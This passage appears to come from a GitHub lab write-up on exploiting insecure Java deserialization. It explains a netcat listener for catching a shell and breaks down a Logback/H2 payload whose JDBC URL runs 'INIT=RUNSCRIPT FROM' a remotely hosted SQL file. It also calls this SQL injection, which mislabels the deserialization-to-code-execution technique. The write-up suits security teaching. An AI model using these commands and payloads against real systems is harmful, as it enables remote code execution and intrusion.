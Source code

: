•	nc: This is the command for the netcat utility, a versatile networking tool that can be used for various networking tasks, including creating network connections, listening on ports, and transferring data.

•	-l: This option tells nc to operate in listening mode. In this mode, nc waits for incoming network connections.

•	-v: This option enables verbose mode, which means nc will provide more detailed output, including information about incoming connections and data transfer.

•	-p 4545: This option specifies the port number to listen on. In this case, it's port 4545. You can replace 4545 with any other port number you want to use.

When you run nc -lvp 4545, the nc command will start listening for incoming network connections on port 4545, and it will display information about any incoming connections to the terminal. 

After setting up our netcat listener, we go back to the GitHub page that contains the scripts for our exploit. We then identify the following payload below and copy it to put in our terminal.

![image](https://github.com/Jake-Schoellkopf/Insecure-Java-Deserialization/assets/133706360/e398983f-84f0-4a32-aea0-b3e83c1ce1cf)

The purpose of this payload is to target a Java application that uses the Logback library with an H2 database. This payload is attempting to perform an SQL injection attack. Here's a breakdown of the payload:

1.	"ch.qos.logback.core.db.DriverManagerConnectionSource": This is the Java class name, indicating that the payload is trying to exploit a vulnerability in the DriverManagerConnectionSource class from the Logback library. It suggests that the application uses Logback for database connections.

2.	"url": This is a property within an object that appears to be part of the configuration for connecting to a database.

3.	"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://localhost:8000/inject.sql'": This is the actual payload that's injected into the url property. It contains several parts:

    	"jdbc:h2:mem:": This is the legitimate part of an H2 database connection URL.

      ";TRACE_LEVEL_SYSTEM_OUT=3;": This part attempts to enable detailed SQL query logging by setting the TRACE_LEVEL_SYSTEM_OUT parameter to 3. This could be used to print SQL queries to the console,     
       potentially revealing sensitive information.

      "INIT=RUNSCRIPT FROM 'http://localhost:8000/inject.sql'": This part is particularly malicious. It attempts to run an SQL script located at http://localhost:8000/inject.sql as part of the database 
       initialization process. This is a classic SQL injection technique where an attacker tries to execute arbitrary SQL code from an external source.

In summary, this payload is designed to exploit a vulnerability in the Logback library's database connection handling to perform an SQL injection attack. If successful, it could potentially allow an attacker to execute arbitrary SQL queries on the database, which could lead to unauthorized data access, data manipulation, or other security breaches. 

We then modify our payload to look like the following:

![image](https://github.com/Jake-Schoellkopf/Insecure-Java-Deserialization/assets/133706360/be2899f8-4071-4699-adad-389ce5f5b6d8)

The primary difference between these payloads is in the URL used in the RUNSCRIPT part:

•	In the first payload, the URL is 'http://localhost:8000/inject.sql', suggesting that the SQL script to be executed is hosted on the same machine where the application is running, with the address being localhost.
